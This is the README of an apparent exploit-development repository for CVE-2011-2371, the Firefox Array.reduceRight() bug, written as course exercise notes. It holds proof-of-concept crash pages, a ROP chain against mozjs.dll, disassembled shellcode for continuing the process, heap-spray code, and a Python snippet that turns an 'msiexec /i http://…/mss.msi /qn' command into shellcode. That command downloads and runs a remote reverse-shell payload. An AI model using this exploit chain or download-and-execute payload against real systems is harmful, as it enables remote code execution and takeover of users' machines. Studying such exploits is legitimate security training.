





# expliot_development
Repository to archive exploit development code and notes

# Table of Contents
    * [CVE-2011-2371: Vulnerability Discovery](#cve-2011-2371-vulnerability-discovery)
    * [CVE-2011-2371: Exploitation](#cve-2011-2371-exploitation)

## Exploits
 -  CVE-2011-2371 Array.reduceRight() info leak and potential code execution
    (https://bugzilla.mozilla.org/show_bug.cgi?id=664009)


##  CVE-2011-2371 Vulnerability Discovery

### Original POC
```
<html>
<body>
<script>
 
 	// poc.html 
 	//
 	// Original POC of the vulnerability discovered by Chris Rohlf.
 	//
	
 	xyz = new Array;
 	xyz.length = 0x80100000;

 	a = function func(prev, current, index, array) {
	current[0] = 0x41424344;
	}

xyz.reduceRight(a,1,2,3);

</script>
</body>
</html>

```

```
<html>
<body>
 <script>
 
 	// poc1.html 
 	//
 	// Proof of concept to crash Firefox.
 	//
 	
 	arr = new Array;
 	arr.length = 0x80100000;	// 10000000 00010000 00000000 00000000
 								// int32=-2146435072, uint32=2148532224
 
 	func = function func(prev, current, index, array) {
 		current[0] = 0x41424344;
 	}

 	try{
 	  arr.reduceRight(func,1,2,3);
 	}
 	catch(e){ }
 
 </script>
 </body>
 </html>

```

```python
The array_extra seems to have several js* variables (e.g. length, start, end, step, etc.).
why could this function be vulnerable to an integer overflow?

length jsint 32-bit integer types. −2,147,483,648 to 2,147,483,647.
newlen jsuint 32-bit unsigned integer types  0 to 4,294,967,295
start  jsint
end   jsint
step   jsint
few other bool values.

```


```python
Modify the function func() in poc1.html to test whether the browser crashes when we set new values to prev, index, and array. Does it crash? If so, which variable cause Firefox to crash? If not, does the browser crash also when we read the value in current or just when we try to set it to 0x41424344?
```
https://bugzilla.mozilla.org/show_bug.cgi?id=664009
Just adding the same values to index, prev oom like situation
* index is the right answer

##  CVE-2011-2371 Exploitation

* [x] Regardless of the method used by the shellcode, chances are that the shellcode gets execute and soon after Firefox crashes. The reason may be some unexpected changes of the stack pointer. Investigate the crash and try to locate the cause. Make sure to document your findings. 

```Yes, after the shellcode, the execution is not restored to the original place and simply runs forward after the paylod shellcode execution than crashes at somepoint.```

* [x] Modify your ROP chain to allow process continuation. Tip: Restore the stack pointer to what it was before. 

Stack pointer has to be saved straight after we transfer the control:

* POP EDI < as PUSHAD will return here
* JUMP over the saved values
* PUSHAD and jump back to the original place

```shell script

	arr_before[idx++] = mozjs_base_ptr + 0x0000ecd8; //#0x0000ecd8) : # MOV EAX,ESI # RETN 0x04
	arr_before[idx++] = mozjs_base_ptr + 0x00156519,  // RETN (ROP NOP) [mozjs.dll] << skip over RET4
	arr_before[idx++] = mozjs_base_ptr + 0x00156519,  // RETN (ROP NOP) [mozjs.dll] << skip over RET4
	arr_before[idx++] = mozjs_base_ptr + 0x000a111c,  // POP EDI # RETN [mozjs.dll] << skip over RET4
	arr_before[idx++] = mozjs_base_ptr + 0x0013894f; //# PUSH EAX # ADD AL,5D # POP EDI # POP EBX # ADD ESP,14 # RETN
	//: 0x0013894f) : # INC EBX # ADD AL,5D # ADD ESP,2C # RETN 0x04    ** [mozjs.dll] **   |   {PAGE_EXECUTE_READ}

	arr_before[idx++] = mozjs_base_ptr + 0x000c8943,  // PUSHAD # RETN [mozjs.dll]
	arr_before[idx++] = 0xdead1337;
```
* After the calc shellcode execution restore the saved stack pointer and restore the oginal values from the **mozjs!js_SetTraceableNativeFailed+0x5e59**
* then jump to a "safe place" from where process safely recover and continue, this was achieved using a "trailing shellcode"
Trailing shellcode:
```shell script
06d22ce4 81ec00010000    sub     esp,100h
06d22cea 58              pop     eax
06d22ceb 3d3713adde      cmp     eax,0DEAD1337h
06d22cf0 75f8            jne     06d22cea
06d22cf2 58              pop     eax
06d22cf3 61              popad
06d22cf4 83eb1c          sub     ebx,1Ch
06d22cf7 89f8            mov     eax,edi
06d22cf9 83ed20          sub     ebp,20h
06d22cfc 90              nop
06d22cfd 89ec            mov     esp,ebp
06d22cff 8b6c2404        mov     ebp,dword ptr [esp+4]
06d22d03 b801ffffff      mov     eax,0FFFFFF01h
06d22d08 bb17feffff      mov     ebx,0FFFFFE17h
06d22d0d b90bffff3f      mov     ecx,3FFFFF0Bh
06d22d12 ba01feffff      mov     edx,0FFFFFE01h
06d22d17 8bbd3cffffff    mov     edi,dword ptr [ebp-0C4h]
06d22d1d ffb540ffffff    push    dword ptr [ebp-0C0h]
```
* This code search for the saved ESP value by locating the `0xdead1337` value on the stack than restoring the values, aligning the offsets in the values e.g. `sub     ebp,20h`
* After that filling up the original values and juming to the save place.
* Screenshots:
  * 
  * 
  * 
  * 
  

* [x] In this module, we went through the steps to create an exploit for the Mozilla Firefox Array.reduceRight() vulnerability and saw how to pop a calculator. However, the exploit works fine because the calculator shellcode is relatively small (193 bytes). Modify the exploit to execute a larger payload of let say 700 bytes (e.g. reverse shell, meterpreter, etc.).

It is possible to create a bigger JS object for string the larger shellcode there and use an egg hunter or possibly the memory leak to find the address of the shellcode. Then create new executable heap, copy the shellcode and jump to it.
```shell script

	//////////// Set up the heap as we want ////////////
	var arr_payload = new Uint32Array(512);
	for(var i = 0; i < 512; i++) {
		arr_payload[0] = 0x77303074;
		arr_payload[1] = 0x77303074;
		
//		\x55\x52\x52\x55
		//arr_payload[0] = 0x52555552;
		arr_payload[i] = 0x00520052;
		if (i == 510) { arr_payload[i] = 0x53535353; }
		if (i == 511) { arr_payload[i] = 0x52525252; }	// last element of the array
	}
```
However it is much less effort to convert he WinExec shellcode to invoke a Windows LOLbin and load the pre-compile payload. 
In this case MSIEXEC was used based on this blog post. - https://iamroot.blog/2019/01/28/windows-shellcode-download-and-execute-payload-using-msiexec/

Small python code to create the url representation for the shellcode:
```python
import codecs
import binascii

commandline = "msiexec /i http://192.168.123.89/mss.msi /qn"
bytenum = 4
out = [(commandline[::-1][i:i+bytenum]) for i in range(0, len(commandline), bytenum)]
# Printing output
print(out)
for i in out:
    print("PUSH" + str(binascii.hexlify(codecs.encode(i))))
```
* 
* 

* Shellcoding look-up functions in DLLs - https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html#find_dll

The modified HTML code:

poc/process_cont_msisex_revshell.html